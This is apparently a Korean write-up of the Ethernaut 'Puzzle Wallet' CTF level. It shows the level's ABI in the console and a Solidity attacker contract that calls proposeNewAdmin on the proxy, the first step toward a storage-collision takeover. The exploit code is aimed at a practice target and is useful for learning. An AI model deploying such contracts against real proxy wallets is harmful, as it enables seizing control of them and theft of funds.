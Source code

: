 ```solidity
await contract.abi
(10) [{…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}]
0:{inputs: Array(1), name: 'addToWhitelist', outputs: Array(0), stateMutability: 'nonpayable', type: 'function', …}
1:{inputs: Array(1), name: 'balances', outputs: Array(1), stateMutability: 'view', type: 'function', …}
2:{inputs: Array(0), name: 'deposit', outputs: Array(0), stateMutability: 'payable', type: 'function', …}
3:{inputs: Array(3), name: 'execute', outputs: Array(0), stateMutability: 'payable', type: 'function', …}
4:{inputs: Array(1), name: 'init', outputs: Array(0), stateMutability: 'nonpayable', type: 'function', …}
5:{inputs: Array(0), name: 'maxBalance', outputs: Array(1), stateMutability: 'view', type: 'function', …}
6:{inputs: Array(1), name: 'multicall', outputs: Array(0), stateMutability: 'payable', type: 'function', …}
7:{inputs: Array(0), name: 'owner', outputs: Array(1), stateMutability: 'view', type: 'function', …}
8:{inputs: Array(1), name: 'setMaxBalance', outputs: Array(0), stateMutability: 'nonpayable', type: 'function', …}
9:{inputs: Array(1), name: 'whitelisted', outputs: Array(1), stateMutability: 'view', type: 'function', …}
```

Proxy의 함수들이 아닌 Wallet의 함수들이 등록되어 있다. 하지만 이는 편의성을 위하여 이더넛에서 abi를 Wallet의 함수들로 등록을 해둔 것일 뿐 실제로는 프록시와 상호작용하는 것이므로 contract의 주소는 Proxy의 주소로 생각하는 것이 맞다.

그렇다면 우리는 어떤 함수를 실행시킬 수 있는지를 생각해보아야 한다.

우리가 현재 실행할 수 있는 함수는 Proxy의 newProposeAdmin()밖에 존재하지 않는다. 근데 이는 아쉽게도 이더넛에서 abi를 제공하지 않고 있기 때문에 직접 컨트랙트 주소를 통해 newProposeAdmin()을 호출해야한다.

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.0;

interface PuzzleProxy{
    function pendingAdmin()external returns(address);
    function admin()external returns(address);
    function proposeNewAdmin(address) external ;
}

contract PuzzleWalletAttack{
    PuzzleProxy public target;
    address public proxy_admin;
    address public proxy_pendingadmin;

    constructor(address _target){
        target=PuzzleProxy(_target);
    }
    function ProxyAdmin()public{
        proxy_admin=target.admin();
    }

    function proxyPendingAdmin()public{
        proxy_pendingadmin=target.pendingAdmin();
    }

    function NewAdmin() public {
        target.proposeNewAdmin(msg.sender);
    }

}
```
